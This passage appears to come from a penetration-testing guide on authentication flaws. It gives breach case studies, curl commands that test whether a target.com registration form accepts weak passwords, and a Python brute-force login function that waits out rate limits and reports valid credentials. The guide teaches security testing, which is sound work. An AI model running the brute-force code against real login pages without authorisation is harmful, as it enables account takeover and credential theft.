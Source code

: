 - **Impact**: 3 billion user accounts compromised
- **Cause**: Weak password hashing (MD5) and security questions
- **Root Cause**: Outdated authentication mechanisms and weak cryptography
- **Lesson**: Strong password hashing and additional authentication factors are essential

### Case Study 3: Microsoft Exchange Server Attacks (2021)

- **Impact**: 250,000+ servers compromised worldwide
- **Cause**: Authentication bypass vulnerabilities in Exchange Server
- **Root Cause**: Flawed authentication validation in web applications
- **Lesson**: Authentication logic must be thoroughly tested and validated

## 4. Manual Testing Methodology

### 4.1 Password Policy Testing

```bash
# Test weak password acceptance
curl -X POST https://target.com/register \
  -d "username=test&password=123&email=test@example.com"

curl -X POST https://target.com/register \
  -d "username=test&password=password&email=test@example.com"

curl -X POST https://target.com/register \
  -d "username=test&password=qwerty&email=test@example.com"

# Test password length limits
curl -X POST https://target.com/register \
  -d "username=test&password=a&email=test@example.com"  # Too short

curl -X POST https://target.com/register \
  -d "username=test&password=$(python -c 'print("a"*1000)')&email=test@example.com"  # Too long
```

### 4.2 Brute Force Testing

```python
# Automated brute force testing
import requests
import time

def brute_force_login(target_url, username, password_list):
    session = requests.Session()

    for password in password_list:
        data = {
            'username': username,
            'password': password
        }

        response = session.post(target_url + '/login', data=data)

        # Check for rate limiting
        if response.status_code == 429:
            print("Rate limiting detected")
            time.sleep(60)
            continue

        # Check for successful login
        if 'dashboard' in response.text or response.status_code == 302:
            print(f"Success: {username}:{password}")
            return True

```